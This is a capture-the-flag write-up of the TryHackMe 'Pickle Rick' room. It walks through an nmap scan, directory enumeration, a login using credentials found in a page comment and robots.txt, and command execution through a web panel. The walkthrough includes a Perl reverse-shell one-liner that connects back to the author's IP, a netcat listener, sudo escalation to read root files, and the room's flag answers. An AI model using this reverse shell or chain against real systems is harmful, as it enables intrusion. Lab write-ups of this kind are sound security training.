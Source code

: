 ```yaml
---
tagline: picklerick
title: Pickle Rick | Writeup
description: An extra-fun web server exploitation room
banner: /blog/picklerickbanner.jpeg/
banner_alt: Information is power. But like all power, there are those who want to keep it for themselves. -Aaron Swartz
date: '2024-03-10'
---
```


## 📡 NMAP Scan

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.108.226
[sudo] password for vipin: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-09 21:47 EST
Nmap scan report for 10.10.108.226
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.31 seconds
```

- Port 22 & 80 are open.

## 🌐 Accessing the website

- Since port 80 is open, we know there is a website. Let's check it out!

![Image showing the website](/blog/picklerick/website.png 'Fig.1')

- Judging by the blatent hint, we need to use Burpsuite.

## 🟧🔎 Burpsuite & Dirsearch

![Image showing a comment](/blog/picklerick/secretcomment.png 'Fig.2')

- In the source code, I found a comment with a username. That may be useful in the future.

- Since we have no leads to follow, let's run Dirsearch.

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ dirsearch -u http://10.10.108.226 --exclude-status 403,404
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                      
 (_||| _) (/_(_|| (_| )                                                                               
                                                                                                      
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/vipin/reports/http_10.10.108.226/_24-03-09_23-40-12.txt

Target: http://10.10.108.226/

[23:40:12] Starting:                                                                                  
[23:40:36] 200 -  588B  - /assets/                                          
[23:40:36] 301 -  315B  - /assets  ->  http://10.10.108.226/assets/
[23:40:53] 200 -  455B  - /login.php                                        
[23:41:03] 200 -   17B  - /robots.txt                                       
                                                                             
Task Completed
```

## Aquiring the Ingredients

- Lets look at */robots.txt* first.

![Image showing robots.txt](/blog/picklerick/robotstxt.png 'Fig.3')

- Oh! Lets just keep that string of text for future reference though.

- We should also take a look at */login.php* as that is the only page that may potentially assist us.

![Image showing login page](/blog/picklerick/login.png 'Fig.4')

- We know the username is *R1ckRul3s*, what if we try the text we found in */robots.txt*?

![Image showing us logged in](/blog/picklerick/loggedin.png 'Fig.5')

- AND IT WORKED!!!! It seems like we get a Command Panel, lets run some commands to get some ingredients.

- Running ```ls``` gives us this (seen in Fig.6 below)

![Image showing me running ls](/blog/picklerick/ls.png 'Fig.6')

- Now we know we can run commands like this, let's get the first ingredient first!

![Image showing it not letting me](/blog/picklerick/commandissue.png 'Fig.7')

- I thing we have to spawn a Reverse Shell (I will be using [revshells.com](https://www.revshells.com/))

```bash:Panel
# below is the reverse shell i used

perl -e 'use Socket;$i="10.6.22.229";$p=6969;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

- On another tab

```bash:Terminal
──(vipin㉿vipin)-[~]
└─$ nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.6.22.229] from (UNKNOWN) [10.10.108.226] 35408
sh: 0: can't access tty; job control turned off
$ cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```

- Ok, now the second ingredient.

```bash:Terminal
$ pwd
/home/rick
$ cat second\ ingredients
1 jerry tear
$ 
```

- Running ```sudo -l``` told me I could run anything as long as I use ```sudo```. Let's get the Final Ingredient!

```bash:Terminal
$ sudo ls root
3rd.txt
snap
$ sudo cat /root/3rd.txt
3rd ingredients: fleeb juice
$ 
```

### MACHINE PWN'ED 😎

![My Tryhackme badge](https://tryhackme-badges.s3.amazonaws.com/vipin.b.png)
